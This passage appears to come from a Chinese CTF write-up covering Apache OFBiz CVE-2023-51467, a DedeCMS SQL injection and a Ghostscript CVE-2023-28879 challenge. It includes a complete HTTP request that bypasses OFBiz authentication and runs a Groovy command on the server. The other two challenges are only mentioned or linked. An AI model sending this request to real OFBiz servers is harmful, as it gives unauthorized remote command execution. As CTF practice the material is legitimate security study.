 Apache_OFBiz_CVE-2023-51467

去年刚复现过

[https://pankas.top/2023/12/30/apache_ofbiz_cve-2023-51467%E5%A4%8D%E7%8E%B0/](https://pankas.top/2023/12/30/apache_ofbiz_cve-2023-51467%E5%A4%8D%E7%8E%B0/)

```http
POST /webtools/control/ProgramExport?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/2
Host: 127.0.0.1:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

groovyProgram=throw%20new%20Exception("/readflag".execute().text);
```

![](static/S2wybR9Kdoewuaxh5EYcZjBSnBb.png)

## YourSqlTrick

DedeCMS 的 sql 注入

# Pwn

## Be-an-Interpreter-Hacker | Solved

Ghostscript 10.01.0, exp CVE-2023-28879

官方 bugzilla 有人给了 poc,尝试复现([https://bugs.ghostscript.com/show_bug.cgi?id=706494](https://bugs.ghostscript.com/show_bug.cgi?id=706494))
